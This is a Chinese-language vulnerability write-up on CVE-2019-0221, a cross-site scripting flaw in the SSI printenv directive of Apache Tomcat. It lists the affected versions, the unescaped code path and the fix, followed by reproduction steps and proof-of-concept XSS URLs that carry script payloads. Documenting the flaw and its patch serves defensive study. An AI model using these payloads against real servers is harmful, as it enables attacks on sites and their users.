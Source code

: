 ```yaml
---
title: （CVE-2019-0221）Apache Tomcat SSI printenv指令中的XSS
id: zhfly3201
---
```


# （CVE-2019-0221）Apache Tomcat SSI printenv指令中的XSS

## 一、漏洞简介

Apache Tomcat在其SSI实现中存在漏洞，可用于实现跨站点脚本（XSS）。只有在启用SSI并使用“printenv”指令的情况下，才能利用此漏洞。

利用条件

*   必须在Apache Tomcat中启用SSI支持 - 全局或特定Web应用程序。默认情况下不启用。
*   Web应用程序中必须存在具有“printenv”SSI指令的文件(通常为“.shtml”)。
*   攻击者必须能够访问该文件。

## 二、漏洞影响

Apache Tomcat 9.0.0.M1版本至9.0.0.17版本、

Apache Tomcat 8.5.0版本至8.5.39版本

Apache Tomcat 7.0.0版本至7.0.93版本

## 三、复现过程

### 漏洞分析

服务器端包含(SSI)是一些Web服务器中使用的一种简单的脚本语言，用于实现包括文件、变量的值回显和显示有关文件的基本信息等功能。这些只是针对于SSI特定的环境变量，它们要么由用户设置，要么包含关于传入HTTP请求的信息。（请参阅此处的[完整列表](https://tomcat.apache.org/tomcat-9.0-doc/ssi-howto.html#Variables)）。
“echo”指令打印出单个变量的值，而“printenv”指令打印出所有变量的值。这两个指令都输出HTML。Apache Tomcat对于使用“echo”指令时正确地转义了XSS值，但对于“printenv”指令则没有。因此，如果应用程序使用这个指令，攻击者可以注入恶意输入，从而导致XSS。
比较“echo”参数中正确转义输出的[代码](https://github.com/apache/tomcat/blob/master/java/org/apache/catalina/ssi/SSIEcho.java)：

![image](../img/548b2f5b07bbc328c78f346c73c834fb.png)

与未对输出进行正确转义的“printenv”参数的代码相比：

![image](../img/2feed46d41d0142bb24ad771dd4327da.png)

修复方法是添加如下[提交](https://github.com/apache/tomcat/commit/15fcd16)中所示的编码：

![image](../img/4cdc063aaff09e6a26dcdc3f1b6d0a28.png)

### 漏洞复现

*   1.在Windows中安装Java运行时环境(JRE)。
*   2.下载有漏洞的Tomcat版本并解压。
*   3.在第19行修改conf\context.xml文件，获得上下文权限（(这也可以在单个应用程序上执行，而不是全局执行）

```
Context privileged =“true”> 
```

*   4.根据这里的[指令](https://tomcat.apache.org/tomcat-9.0-doc/ssi-howto.html)修改conf\web.xml以启用SSI servlet(这也可以在单独的应用程序上完成，也可以是全局的)。
*   5.将以下代码放在“webapps / ROOT / ssi / printenv.shtml”中：

```
<html><head><title></title><body>
Echo test: <br /><br />
Printenv test: 
</body></html> 
```

*   6通过以下命令运行Tomcat：

```
cd bin
catalina run 
```

*   7.利用以下URL来触发XSS(可能需要使用Firefox)。观察正确转义的“echo”指令与无法正确转义的“ printenv ”指令之间的区别

```
http://www.0-sec.org:8080/ssi/printenv.shtml?%3Cbr/%3E%3Cbr/%3E%3Ch1%3EXSS%3C/h1%3E%3Cbr/%3E%3Cbr/%3E `[http://www.0-sec.org:8080/printenv.shtml?<script>alert('xss')</script>](http://www.0-sec.org:8080/printenv.shtml?%3Cscript%3Ealert(%27xss%27)%3C/script%3E)` 
```

![image](../img/f8da50e448e4091c158acd1fb68ccacf.png)

![image](../img/64c26c122a00a125f658f54612b0fe5c.png)

## 参考链接

> https://xz.aliyun.com/t/5310